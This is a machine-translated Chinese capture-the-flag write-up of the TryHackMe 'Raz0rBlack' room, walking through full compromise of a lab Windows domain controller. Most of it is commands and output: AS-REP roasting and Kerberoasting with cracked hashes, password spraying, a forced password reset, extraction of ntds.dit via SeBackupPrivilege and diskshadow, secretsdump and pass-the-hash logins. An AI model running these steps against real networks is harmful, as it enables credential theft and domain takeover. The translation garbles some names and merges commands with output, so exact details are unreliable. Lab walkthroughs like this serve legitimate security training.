









# THM: Raz0rBlack

> 原文：<https://infosecwriteups.com/thm-raz0rblack-b368631c38a5?source=collection_archive---------1----------------------->


在本文中，我通过枚举 RPCbind & NFS、滥用 Kerberos、枚举 SMB 以及通过利用属于 **Backup Operators** 组的一个用户来提升我在域控制器上的权限，逐步完成了利用域控制器的过程。这个挑战在 [TryHackMe](https://tryhackme.com/) 平台上有，标题为“ **RAZ0RBLACK 2.1** ，由用户“ [*Xyan1d3*](https://tryhackme.com/p/Xyan1d3) ”创建。

# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为在这篇文章中显然会有**剧透****。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再回来写这篇文章，你会更喜欢这个挑战。因此，没有任何进一步的拖延，让我们开始吧！**

# **端口枚举**

**我开始枚举目标机器，用 **NMAP** 执行快速扫描来识别任何打开的端口。**

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report -Pn 10.10.7.159PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 125
88/tcp    open  kerberos-sec     syn-ack ttl 125               111/tcp   open  rpcbind          syn-ack ttl 125
135/tcp   open  msrpc            syn-ack ttl 125
139/tcp   open  netbios-ssn      syn-ack ttl 125
445/tcp   open  microsoft-ds     syn-ack ttl 125
593/tcp   open  http-rpc-epmap   syn-ack ttl 125
636/tcp   open  ldapssl          syn-ack ttl 125
2049/tcp  open  nfs              syn-ack ttl 125
3268/tcp  open  globalcatLDAP    syn-ack ttl 125
3269/tcp  open  globalcatLDAPssl syn-ack ttl 125
3389/tcp  open  ms-wbt-server    syn-ack ttl 125
5985/tcp  open  wsman            syn-ack ttl 125
9389/tcp  open  adws             syn-ack ttl 125
47001/tcp open  winrm            syn-ack ttl 125
49664/tcp open  unknown          syn-ack ttl 125
49665/tcp open  unknown          syn-ack ttl 125
49666/tcp open  unknown          syn-ack ttl 125
49669/tcp open  unknown          syn-ack ttl 125
49672/tcp open  unknown          syn-ack ttl 125
49675/tcp open  unknown          syn-ack ttl 125
49676/tcp open  unknown          syn-ack ttl 125
49679/tcp open  unknown          syn-ack ttl 125
49694/tcp open  unknown          syn-ack ttl 125
49708/tcp open  unknown          syn-ack ttl 125
49846/tcp open  unknown          syn-ack ttl 125
```

**查看输出，我可以看到有 26 个端口是打开的。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用的 NSE 脚本来查找我可以利用的任何常见漏洞。**

```
nmap -sV -sC -Pn -v -oN nmap-report 10.10.7.159 -p 53,111,135,139,445,593,636,2049,3268,3269,3389,5985,9389,47001,49664,49665,49666,49669,49672,49675,49676,49679,49694,49708,49846
```

**我可以看到 NMAP 的大量输出和一些有趣的服务，我可以进一步列举。**

# **Rpcbind 和 NFS 枚举**

**当 NMAP 扫描运行 rpcbind 服务的端口 111 时，它收集了大量信息。 **rpcbind** 服务将客户端重定向到正确的端口号，以便它可以与所请求的服务进行通信。**

```
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs  **<---- Interesting**
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
```

**我可以看到 NMAP 标识了 [**NFS** 服务](https://book.hacktricks.xyz/pentesting/pentesting-rpcbind#rpcbind-+-nfs)，这意味着我可以列出并下载(也许还可以上传)文件。我还可以看到 NMAP 找到了 NFS 运行的 2049 端口。**

```
2049/tcp  open  mountd        1-3 (RPC #100005)
```

**NFS 是一个客户机/服务器系统，它允许用户通过网络访问文件，并将它们视为驻留在本地文件目录中。我可以使用 **showmount** 工具检查是否有任何共享可供安装。**

```
$sudo showmount -e 10.10.7.159
[sudo] password for kali: 
Export list for 10.10.7.159:
**/users (everyone)**
```

**“***/用户*** ”目录是可挂载的。我在 tmp 文件夹下创建了一个新目录，并运行以下命令在这个新创建的目录上挂载主文件夹。**

```
mkdir /tmp/infosec
mount -t nfs 10.10.63.208:/users /tmp/infosec
```

**接下来，我检查了目录是否成功挂载。**

```
$ df -k10.10.7.159:/users  20407296  16603136   3804160  82% /tmp/infosec
```

**我导航到“ ***/tmp/infosec*** ”目录，列出内容。我可以看到有两个文件。**

```
$ sudo ls -la /tmp/infosec

-rwx------  1 nobody 4294967294  9861 Feb 25  2021 **employee_status.xlsx**
-rwx------  1 nobody 4294967294    80 Feb 25  2021 **sbradley.txt**
```

**我将这两个文件复制到我当前的工作目录中，并为用户 Steven 检索第一个标志，它存储在“ ***sbradley.txt*** ”中。**

****

**史蒂文的旗子。**

**接下来，我打开了“***employee _ status . xlsx***”文件。**

****

*****employee _ status . xlsx***文件内容。**

**我可以看到 haven secret hacker 俱乐部中的玩家及其角色列表。用户"***ljudmila vetrova***"特别有趣，因为他们是活动目录管理员。**

# **Kerberos 枚举**

**Kerberos 是运行在端口 88 上的 Active Directory 中的一项关键身份验证服务。我们可以使用工具**Kerberos**来枚举用户，通过 Kerberos 预认证，可以快速强制枚举有效的 Active Directory 帐户。要使用 **kerbrute** ，我们需要指定域名并提供一个用户列表。此前，NMAP 根据 3389 端口提供的信息，已将该域名确定为“***”Raz 0 rblack . thm***”。**

```
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RAZ0RBLACK
|   NetBIOS_Domain_Name: RAZ0RBLACK
|   NetBIOS_Computer_Name: HAVEN-DC
|   DNS_Domain_Name: **raz0rblack.thm**
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm
```

**我们还可以利用前面在“***employee _ status . xlsx***”文件中发现的姓名列表来枚举用户。根据用于“ *sbradley.txt* ”和质询问题的命名约定，用户名字的首字母与其姓氏连接在一起。在基于“***employee _ status . xlsx***”文件中的名称列表创建用户列表时，我使用了这个命名约定。**

```
./kerbrute_linux_amd64 userenum --dc 10.10.253.179 -d spookysec.local -o kerbrute-user-enum userlist2022/04/09 20:40:42 >  [+] VALID USERNAME:  lvetrova@raz0rblack.thm
2022/04/09 20:40:42 >  [+] VALID USERNAME:  twilliams@raz0rblack.thm
2022/04/09 20:40:42 >  [+] VALID USERNAME:  sbradley@raz0rblack.thm
```

## **as 重新发布**

**现在我有了一些用户名，我决定进行重新发布。当用户帐户设置了权限“*不需要预认证*”时，会出现这种情况。这意味着在请求指定用户帐户上的 Kerberos 票证之前，帐户不需要提供有效的身份证明。使用 Impacket 工具"***getnpusers . py***"，我们可以检查之前用 Kerberos 标识的枚举用户列表。**

```
sudo python3 GetNPUsers.py raz0rblack.thm/ -dc-ip 10.10.160.198 -usersfile kerberos-usernames -no-pass -request -outputfile kerberos-users-found
```

**查看输出文件，我可以看到我们为用户“***twilliams @ Raz 0 r black . thm***”获得了一张 TGT 的票**

```
$krb5asrep$23$twilliams@raz0rblack.thm@RAZ0RBLACK.THM:50792603765164974bfbcf6b50a79f03$515241628dc6711dd499f6e5c23493b674b4b641c55df1b773fcccc0322ec68b45fa32e84c5f9b6d1097fac39097e6302f7835af51c6c05ac1b5fa392737eb021ea564c392916745a29ac4f7b37f735970ce9bb904c74ebb530086dc93e9b7b8b494e33393430deac61523ebae352a820d64d081fd112219e66331e4cb9ca45f5bba18276606c307b541ee7196d57c224e0f6a491fb0e1327dc2fc63ee62b56e0244a93ef6de3d56ee346fb439674d08ea745d8f927225daf809979329dd0b217d7633f47bcd864b82c135c1f1203b7290f14ad4fec88dce9c49b8e2afa381e5568e7a39fde062ff9d659270015fa9ca
```

**接下来，我可以使用 **hashcat** 来破解从 KDC 中检索到的"***Kerberos 5 AS-REP etype 23***"哈希。**

```
hashcat64.exe -m 18200 -a 0 hash.txt rockyou.txt 
```

****

**破解哈希。**

# **SMB 枚举**

**我可以看到端口 139 和 445 是打开的。端口 139 和 445 用于**认证和文件共享**。有多种工具可用于枚举端口 139/445。我是用 **smbmap 开始的。****

```
smbmap -H 10.10.160.198 -u twilliams -p roastpotatoes

Disk                    Permissions     Comment
----                    -----------     -------
ADMIN$                  NO ACCESS       Remote Admin
C$                      NO ACCESS       Default share
IPC$                    READ ONLY       Remote IPC
NETLOGON                READ ONLY       Logon server share 
SYSVOL                  READ ONLY       Logon server share 
**trash                   NO ACCESS       Files Pending for deletion**
```

**我可以看到 **IPC$** 是**只读**，表示我们可以枚举用户名。**

```
crackmapexec smb 10.10.160.198 -u twilliams -p <....> --rid-brute500: RAZ0RBLACK\Administrator (SidTypeUser)
501: RAZ0RBLACK\Guest (SidTypeUser)
502: RAZ0RBLACK\krbtgt (SidTypeUser)
1000: RAZ0RBLACK\HAVEN-DC$ (SidTypeUser)
1106: RAZ0RBLACK\xyan1d3 (SidTypeUser)
1107: RAZ0RBLACK\lvetrova (SidTypeUser)
1108: RAZ0RBLACK\sbradley (SidTypeUser)
1109: RAZ0RBLACK\twilliams (SidTypeUser)
```

**我可以看到一个有趣的 SMB 共享，名为“***”trash*”**，但我目前没有用户“ ***twilliams*** ”的凭据来访问它。我决定使用 **crackmapexec** 和 IPC$ share 中枚举的用户列表来检查密码重用。**

```
crackmapexec smb 10.10.169.150 -u userlist -p <....>[-] raz0rblack.thm\Administrator:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\guest:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\krbtgt:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\HAVEN-DC$:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\ljudmila:<pass> STATUS_LOGON_FAILURE 
[-] raz0rblack.thm\lvetrova:<pass> STATUS_LOGON_FAILURE 
**[-] raz0rblack.thm\sbradley:<pass> STATUS_PASSWORD_MUST_CHANGE**
```

**看来用户“***SBR adley***”**可以重置自己的密码。我们可以指定旧密码(即上面与 crackmapexec 一起使用的密码)和工具 **smbpasswd** 来重置用户密码。****

```
**smbpasswd -r 10.10.169.150 -U sbradleyOld SMB password:
New SMB password:
Retype new SMB password:
Password changed for user sbradley**
```

****我现在可以使用用户“***SBR adley***”**的新重置凭据来进一步枚举 SMB 共享。******

```
****smbmap -H 10.10.127.15 -u sbradley -p password

Disk                     Permissions     Comment
----                     -----------     -------
ADMIN$                   NO ACCESS       Remote Admin
C$                       NO ACCESS       Default share
IPC$                     READ ONLY       Remote IPC
NETLOGON                 READ ONLY       Logon server share 
SYSVOL                   READ ONLY       Logon server share 
trash                    **READ ONLY**       Files Pending for deletion****
```

******我看到我现在对名为 **trash** 的 SMB 共享拥有只读访问权限。查看共享的内容，我可以看到三个文件。******

```
**smbclient //10.10.127.15/trash -U sbradley 

smb: \> ls

chat_log_20210222143423.txt     A     1340  Thu Feb 25 19:29:05 2021
experiment_gone_wrong.zip       A 18927164  Tue Mar 16 06:02:20 2021
sbradley.txt                    A       37  Sat Feb 27 19:24:21 2021**
```

****查看“*chat _ log _ 20210222143423 . txt*”文件，可以看到**CVE-2020–1472**(即 ZeroLogon)被提及。用户" *sbradley* "似乎也制作了一个包含 **ntds.dit** 和 **SYSTEM.hive** 文件的加密 zip，然后管理员撤销了他们的 WinRM-Access。我用 **fcrackzip** 找到了带有“ *rockyou.txt* 单词表的加密 zip 文件的密码。****

```
**fcrackzip -u -D -p ~/rockyou.txt experiment_gone_wrong.zipPASSWORD FOUND!!!!: pw == electro......**
```

****我提取了 **ntds.dit** 和 **SYSTEM.hive** 文件，然后我使用了“***secrets dump . py***”来提取密码哈希。****

```
**sudo python3 secretsdump.py -system system.hive -ntds ntds.dit LOCAL**
```

****这给了我一个很长的潜在散列列表。我使用 **cut** 命令从"***secrets dump . py***"的输出中提取实际的散列。****

```
**cat hashes | cut -d ':' -f 4**
```

****接下来，我使用 **crackmapexec** 来为用户**lvert ova**识别散列。****

```
**crackmapexec smb 10.10.105.22 -u lvetrova -H userhashes[+] raz0rblack.thm\lvetrova:f220d3988deb****************
```

****现在我们有了用户的散列，我们可以使用 **evil-winrm** 来执行一个传递散列攻击来登录。****

```
**evil-winrm -u lvetrova -H f220d3988deb3f***** -i 10.10.105.22 -N**
```

****我开始枚举目标，找到一个名为***“lvetrova . xml*”**的 XML 文件。****

```
***Evil-WinRM* PS C:\Users\lvetrova> dirDirectory: C:\Users\lvetrovaMode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021  10:14 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
**-a----        2/25/2021  10:16 AM           1692 lvetrova.xml****
```

****我使用了 **type** 命令来显示文件的内容，我可以看到这是一个 PSCredential PowerShell xml 文件。PSCredential 对象**表示一组安全凭证，比如用户名和密码**。****

********

****PSCredential PowerShell xml 文件。****

****我们可以使用 [PowerShell](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx) 读取 xml 文件中存储的标志，如下所示。****

********

****柳德米拉的旗帜。****

# ****Kerberoasting****

****因为我们有一个有效的散列，所以我可以寻找支持的 SPN，并使用 Impacket 中的“ ***GetUserSPNs.py*** ”工具获得 SPN 的 TGS 票。****

```
**sudo python3 GetUserSPNs.py -dc-ip 10.10.32.193 raz0rblack.thm/lvetrova -hashes f220d3988deb3******:f220d3988deb3***** -request**
```

****这成功地为用户“ ***xyan1d3*** ”提供了一个 TGS 散列，现在我可以使用 **hashcat** 来获取密码。****

```
**hashcat64.exe -m 13100 hash.txt rockyou.txt**
```

********

****破解哈希。****

****接下来，我使用带有 **evil-winrm** 的凭证登录。登录后，我发现了另一个 PSCredential PowerShell xml 文件，其中包含该标志，尽管声明不是这样。****

********

****Xyan1d3 的标志。****

# ****权限提升****

****我首先使用 **whoami** 执行一些手动用户枚举。****

```
**whoami /allGroup Name                                 Type
========================================== ================
Everyone                                   Well-known group
**BUILTIN\Backup Operators**                   Alias
BUILTIN\Remote Management Users            Alias
BUILTIN\Users                              Alias
...... PRIVILEGES INFORMATION
----------------------Privilege Name                Description
============================= ==============================
SeMachineAccountPrivilege     Add workstations to domain
**SeBackupPrivilege             Back up files and directories**
**SeRestorePrivilege            Restore files and directories**
SeShutdownPrivilege           Shut down the system
SeChangeNotifyPrivilege       Bypass traverse checking
SeIncreaseWorkingSetPrivilege Increase a process working set**
```

****通过使用***“whoami/all”、*** 查看用户的权限，我看到该用户属于**备份操作员**组，该组启用了 **SeBackupPrivilege** 和 **SeRestorePrivilege** 。这可以通过多种技术来利用，比如使用 [DiskShadow](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) 。下面是用来获取文件的脚本。****

```
**set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:**
```

****我上传了文本文件并执行了下面的命令，如上面链接的文章所述。****

```
***Evil-WinRM* PS C:\Users\xyan1d3\Documents> upload back_script.txt*Evil-WinRM* PS C:\Users\xyan1d3\Documents> mkdir C:\tmp*Evil-WinRM* PS C:\Users\xyan1d3\Documents> diskshadow /s back_script.txt*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite*Evil-WinRM* PS C:\temp> reg save hklm\system c:\temp\system*Evil-WinRM* PS C:\temp> download ntds.dit
*Evil-WinRM* PS C:\temp> download system**
```

****一旦我有了 **ntds.dit** 和**系统**文件，我就可以使用“***secrets dump . py***”来检索散列。****

```
**python3 secretsdump.py -system system -ntds ntds.dit LOCAL**
```

****这为管理员的帐户提供了散列。我现在可以使用 **evil-winrm** 作为管理员登录。我可以看到带有标志的 PS credential PowerShell "***root . XML***"文件，但在尝试读取该文件时出现错误。****

********

****PSCredential PowerShell 错误。****

****查看“ ***root.xml*** ”的内容，我可以看到编码的标志。使用 CyberChef，我可以看到该文件的标志是十六进制编码，解码它给我的标志。****

********

****根标志。****

# ****泰森的旗帜****

****我开始找泰森的旗帜，找到了一个名为“ ***twilliams*** ”的用户文件夹。在文件夹里，我发现了一个可疑的文件:****

```
**definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe**
```

****检查这个文件的内容给了我一个标志。****

********

****泰森旗帜。****

# ****绝对机密的****

****这个房间的最终任务是找到藏在机器上的最高机密。执行一些手动枚举，我在“*”程序文件下找到一个名为“ ***绝密*** 的文件夹。*****

```
***Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/21/2021  11:45 AM                Amazon
d-----        2/23/2021   6:27 AM                Common Files
d-----        5/21/2021   9:39 AM                internet explorer
**d-----        2/25/2021  10:13 AM                Top Secret**
d-----        5/21/2021  11:41 AM                VMware***
```

*****我可以看到一个图像文件存储在名为“ ***top_secret.png*** ”的文件夹中。我下载了图像并打开了它。*****

**********

*****绝密. png*****

*****根据图像，似乎最高机密是用于退出 VIM 的完整命令。*****

# *****最后的想法*****

*****我真的很喜欢在这个房间里工作，并有机会学习更多关于利用 Active Directory 域控制器的知识。这个挑战有很多枚举，这帮助我提高了我的 Active Directory 枚举技能。谢谢你一直读到最后，继续黑下去😄！*****